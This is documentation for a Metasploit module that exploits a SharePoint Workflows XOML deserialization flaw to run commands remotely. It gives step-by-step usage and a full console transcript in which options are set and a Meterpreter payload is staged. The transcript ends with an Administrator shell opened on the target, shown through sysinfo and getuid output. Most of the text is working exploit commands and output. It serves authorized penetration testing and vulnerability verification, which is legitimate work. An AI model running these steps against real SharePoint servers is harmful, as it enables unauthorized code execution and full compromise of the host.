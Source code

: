 ## Vulnerable Application

This module exploits a vulnerability within SharePoint and its .NET backend
that allows an attacker to execute commands using specially crafted XOML data
sent to SharePoint via the Workflows functionality.

## Verification Steps

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/windows/http/sharepoint_workflows_xoml`
  1. Set the target options (`RHOSTS`, `RPORT` and `SSL`) as appropriate
  1. Set the authentication options (`DOMAIN`, `USERNAME` and `PASSWORD`) as appropriate
  1. Do: `run`
  1. You should get a shell

## Scenarios

### SharePoint 2019 on Server 2016

```
msf exploit(windows/http/sharepoint_workflows_xoml) > show options 

Module options (exploit/windows/http/sharepoint_workflows_xoml):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN     WORKGROUP        yes       The domain to use for Windows authentication
   PASSWORD   Password1        yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.14   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to the SharePoint application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   administrator    yes       Username to authenticate as
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     192.168.159.14   no        The target address


Exploit target:

   Id  Name
   --  ----
   2   Windows Powershell


msf exploit(windows/http/sharepoint_workflows_xoml) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Started bind TCP handler against 192.168.159.14:4444
[*] Sending stage (206403 bytes) to 192.168.159.14
[*] Meterpreter session 3 opened (0.0.0.0:0 -> 192.168.159.14:4444) at 2020-03-23 18:11:44 -0400

meterpreter > sysinfo
Computer        : SHRPNT2019-P
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : SHRPNT2019P
Logged On Users : 14
Meterpreter     : x64/windows
meterpreter > getuid
Server username: SHRPNT2019P\Administrator
meterpreter >
```
